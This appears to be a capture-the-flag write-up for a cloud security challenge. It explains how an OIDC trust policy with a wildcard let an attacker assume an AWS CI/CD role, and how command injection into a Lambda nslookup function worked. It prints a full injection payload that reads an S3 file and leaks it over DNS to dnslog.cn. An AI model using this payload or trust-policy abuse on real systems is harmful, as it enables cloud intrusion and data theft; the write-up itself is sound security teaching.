


<div align="center">
  

  <p align="center">
    
    
    
    
    
  </p>
</div>

---

## 🎯 Executive Summary & Challenge Profile

> [!IMPORTANT]  
> **Challenge Objective:** Analyze an exposed Terraform infrastructure repository, exploit an OIDC wildcard misconfiguration to assume a CI/CD IAM role, and exfiltrate the stage flag from an isolated Lambda environment via DNS tunneling.

<table>
  <thead>
    <tr>
      <th width="220">Parameter</th>
      <th width="580">Intelligence & Endpoint Specification</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>🏷️ Challenge Name</code></td>
      <td><strong>Have Some Faith (Stage 1)</strong></td>
    </tr>
    <tr>
      <td><code>🎯 Target Account ID</code></td>
      <td><code>009661764077</code></td>
    </tr>
    <tr>
      <td><code>⚡ Execution API</code></td>
      <td><code>https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2</code></td>
    </tr>
    <tr>
      <td><code>📦 Target S3 Bucket</code></td>
      <td><code>codec4f26c862a321ef5</code></td>
    </tr>
    <tr>
      <td><code>🛡️ VPC Restrictions</code></td>
      <td>Isolated VPC (No Outbound HTTP/HTTPS Egress / DNS via Route 53 Resolver Enabled)</td>
    </tr>
    <tr>
      <td><code>🏴 Captured Flag</code></td>
      <td><strong><code>1a1jelrlfg2yi2s0</code></strong></td>
    </tr>
  </tbody>
</table>

---

## 🗺️ Architectural Threat Model & Attack Flow

The following Mermaid diagram illustrates the end-to-end attack chain, starting from the OIDC wildcard trust exploitation to command injection and DNS exfiltration:



---

## 🧭 Step-by-Step Exploitation & Exfiltration Methodology

### <samp>STEP 01</samp> ✦ Git Forensic Analysis & Terraform Discovery
We extracted the provided `dotgit.zip` archive and restored the git repository structure to inspect the underlying infrastructure as code (IaC) configuration.

> [!NOTE]  
> Inspecting the commit log (`git log -p`) revealed that the author had committed both the AWS infrastructure setup (`main.tf`, `github.tf`) and the IAM trust policies.

```bash
# Restore Git repository and inspect commit history
unzip dotgit.zip -d dotgit && cd dotgit
git checkout -f HEAD
git log --oneline --all --graph
```

---

### <samp>STEP 02</samp> ✦ Identifying the OIDC Trust Misconfiguration
Within `policies/cicd-trust-policy.json.tpl` (committed in `17e4932`), we identified a critical IAM trust policy vulnerability:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::${account_id}:oidc-provider/token.actions.githubusercontent.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringLike": {
                    "token.actions.githubusercontent.com:sub": "repo:*/*:ref:refs/heads/corgi"
                }
            }
        }
    ]
}
```

> [!WARNING]  
> The wildcard condition `"repo:*/*:ref:refs/heads/corgi"` allowed **any GitHub repository in the world** pushing to a branch named `corgi` to assume `arn:aws:iam::009661764077:role/cicdRole`.

---

### <samp>STEP 03</samp> ✦ Assuming `cicdRole` & Cloud Enumeration
We created an automated GitHub Actions workflow on a branch named `corgi` (`.github/workflows/stage1.yml`) to authenticate via OIDC and enumerate AWS account resources.



By querying the Lambda API, we discovered that `nslookupv2` executed `/opt/nslookup` on user-supplied input via Python's `subprocess.run(..., shell=True)`.

---

### <samp>STEP 04</samp> ✦ Command Injection & Route 53 DNS Exfiltration
Because the Lambda function ran inside an isolated VPC without an Internet Gateway or NAT Gateway, standard HTTP/HTTPS out-of-band exfiltration failed. 

However, the internal **AWS Route 53 VPC DNS Resolver (`169.254.169.253`)** remained accessible and permitted outbound recursive DNS lookups. We engineered a payload that injected commands into `nslookupv2`, read the flag from S3, hex-encoded the bytes, and exfiltrated the string as a subdomain DNS query:

<details>
<summary><b>📄 Click to Expand: Command Injection & DNS Exfiltration Payload</b></summary>

```json
{
  "domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"
}
```

#### Breakdown of Injected Shell Commands:
1. `;` — Terminates the initial `/opt/nslookup` command.
2. `/opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt` — Copies the confidential flag from the S3 bucket to `/tmp` using the pre-installed AWS CLI Lambda layer.
3. `FLAG=$(python3 -c "...")` — Converts the binary flag into a clean hexadecimal string suitable for DNS hostnames.
4. `/opt/nslookup $FLAG.ixz9wv.dnslog.cn` — Issues an outbound DNS lookup, leaking the flag hex in the subdomain prefix.
</details>

---

## 🏁 Verification & Flag Capture

<table>
  <thead>
    <tr>
      <th width="30%">Exfiltration Channel</th>
      <th width="70%">Intercepted Hex Payload & Decoded Flag</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>📡 DNS Listener (dnslog.cn)</code></td>
      <td><code>3161316a656c726c6667327969327330.ixz9wv.dnslog.cn</code></td>
    </tr>
    <tr>
      <td><code>🔓 Decoded Flag Value</code></td>
      <td><strong><code>1a1jelrlfg2yi2s0</code></strong></td>
    </tr>
  </tbody>
</table>

---

<div align="center">
  <sub>🛡️ Documented by <b>Agent freecandy</b> • Cloud Escape CTF 2026 • Advanced Cloud Infrastructure Security</sub>
</div>
